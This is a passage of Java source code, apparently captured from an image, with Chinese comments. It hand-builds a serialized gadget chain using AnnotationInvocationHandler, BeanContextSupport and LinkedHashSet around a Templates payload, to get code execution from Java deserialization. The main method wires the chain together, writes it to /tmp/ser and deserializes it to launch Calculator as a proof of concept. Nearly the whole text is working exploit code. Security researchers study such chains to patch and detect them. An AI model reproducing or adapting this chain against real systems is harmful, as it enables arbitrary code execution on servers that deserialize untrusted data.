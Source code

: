 ```
            `}`
        `}`;
        // 手动添加  SC_WRITE_METHOD，否则会因为反序列化过程中的异常导致 ois.defaultDataEnd 为 true，导致流不可用。
        TCClassDesc desc = new TCClassDesc("sun.reflect.annotation.AnnotationInvocationHandler", (byte)(SC_SERIALIZABLE | SC_WRITE_METHOD));
        desc.addField(new TCClassDesc.Field("memberValues", Map.class));
        desc.addField(new TCClassDesc.Field("type", Class.class));
        TCObject.ObjectData data = new TCObject.ObjectData();
        data.addData(map);
        data.addData(Templates.class);
        handler.addClassDescData(desc, data);
        return handler;
    `}`
    public static TCObject makeBeanContextSupport(TCObject handler, Serialization ser) throws Exception `{`
        TCObject obj = new TCObject(ser);
        TCClassDesc beanContextSupportDesc = new TCClassDesc("java.beans.beancontext.BeanContextSupport");
        TCClassDesc beanContextChildSupportDesc = new TCClassDesc("java.beans.beancontext.BeanContextChildSupport");
        beanContextSupportDesc.addField(new TCClassDesc.Field("serializable", int.class));
        TCObject.ObjectData beanContextSupportData = new TCObject.ObjectData();
        beanContextSupportData.addData(1); // serializable
        beanContextSupportData.addData(handler);
        beanContextSupportData.addData(0, true); // 防止 deserialize 内再执行 readObject
        beanContextChildSupportDesc.addField(new TCClassDesc.Field("beanContextChildPeer", BeanContextChild.class));
        TCObject.ObjectData beanContextChildSupportData = new TCObject.ObjectData();
        beanContextChildSupportData.addData(obj); // 指回被序列化的 BeanContextSupport 对象
        obj.addClassDescData(beanContextSupportDesc, beanContextSupportData, true);
        obj.addClassDescData(beanContextChildSupportDesc, beanContextChildSupportData);
        return obj;
    `}`
    public static void main(String[] args) throws Exception `{`
        Serialization ser = new Serialization();
        Templates templates = makeTemplates("open /Applications/Calculator.app");
        HashMap map = new HashMap();
        map.put("f5a5a608", templates);
        TCObject handler = makeHandler(map, ser);
        TCObject linkedHashset = new TCObject(ser);
        TCClassDesc linkedhashsetDesc = new TCClassDesc("java.util.LinkedHashSet");
        TCObject.ObjectData linkedhashsetData = new TCObject.ObjectData();
        TCClassDesc hashsetDesc = new TCClassDesc("java.util.HashSet");
        hashsetDesc.addField(new TCClassDesc.Field("fake", BeanContextSupport.class));
        TCObject.ObjectData hashsetData = new TCObject.ObjectData();
        hashsetData.addData(makeBeanContextSupport(handler, ser));
        hashsetData.addData(10, true); // capacity
        hashsetData.addData(1.0f, true); // loadFactor
        hashsetData.addData(2, true); // size
        hashsetData.addData(templates);
        TCObject proxy = Util.makeProxy(new Class[]`{`Map.class`}`, handler, ser);
        hashsetData.addData(proxy);
        linkedHashset.addClassDescData(linkedhashsetDesc, linkedhashsetData);
        linkedHashset.addClassDescData(hashsetDesc, hashsetData, true);
        ser.addObject(linkedHashset);
        ser.write("/tmp/ser");
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(new File("/tmp/ser")));
        System.out.println(in.readObject());
    `}`
`}`
```
